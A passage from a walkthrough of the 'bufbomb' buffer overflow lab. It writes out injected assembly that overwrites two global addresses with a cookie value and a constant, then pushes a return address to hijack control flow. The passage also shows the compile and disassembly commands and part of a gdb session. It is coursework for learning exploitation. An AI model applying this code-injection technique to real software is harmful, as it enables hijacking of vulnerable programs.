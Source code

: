 Afterwards, the program will re-check **cmpl $0xffffffff, 0x804d100** whether the contents of address 0x804d100 is equal to a constant 0xffffffff or not. If not, the program will issue an error message. So how do we change it so that the value is equal to the constant? The step is similar to the previous explanation, namely we only change the contents of 0x804d100.

Ok, now we'll simplify what we need to do on this level:

> 1. Change the contents of address 0x804d104 into our cookie (0x1d9ed824).<br />
> 2. Change the contents of address 0x804d100 into a constant 0xffffffff.<br />

To change the contents of an address, we can't just directly do the thing through user input. As both of addresses aren't located within the stack, we need to inject codes where the contents is also Assembly code. 

So, open your text editor and type this Assembly code:

> movl $0x1d9ed824, 0x804d104<br />
> movl $0xffffffff, 0x804d100<br />
> pushl $0x08048bf3<br />
> ret<br />

The first row of the above code shows us that it'll change the contents of address 0x804d104 into a constant 0x1d9ed824 which is our cookie value.

The second row of the above code shows us that it'll change the contents of address 0x804d100 into a constant 0xffffffff.

The third row of the above code shows us that it'll insert an address 0x08048bf3 into the stack so that after the calling process for function **ah_choo()** is finished, the program will be directly returning to address 0x08048bf3 where it's an address of procedure **annyeong()**. 

Afterwards, please save that file with your chosen name (the file extension is **s**). In this case, I named it with **assemblylvl2.s**.

Now let's compile of code. Use this command:

> gcc -m32 -c assemblylvl2.s<br />
> objdump -d assemblylvl2.o > assemblylvl2.d<br />
> cat assemblylvl2.d<br />

It'll give this result:

Compiled code: | | 
--- | --- | ---
assemblylvl2.o:     file format elf32-i386 | | 
Disassembly of section .text: | | 
00000000 <.text>: | | 
0:    c7 05 04 d1 04 08 24   |  movl  |  $0x1d9ed824,0x804d104
7:    d8 9e 1d               | | 
a:    c7 05 00 d1 04 08 ff   |   movl |  $0xffffffff,0x804d100
11:    ff ff ff              | | 
14:    68 f3 8b 04 08        |   push |  $0x8048bf3
19:    c3                    |   ret | 

Then, use GDB again and give a free input. In this case I gave **A** character as much as 9 times as the input. 

> gdb bufbomb<br />
> (gdb) b ah_choo<br />
> Breakpoint 1 at 0x8048cec<br />
> (gdb) run -u eksperimen<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048cec in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cef in ah_choo ()<br />
> (gdb) ni<br />
> 0x08048cf3 in ah_choo ()<br />
> (gdb) ni<br />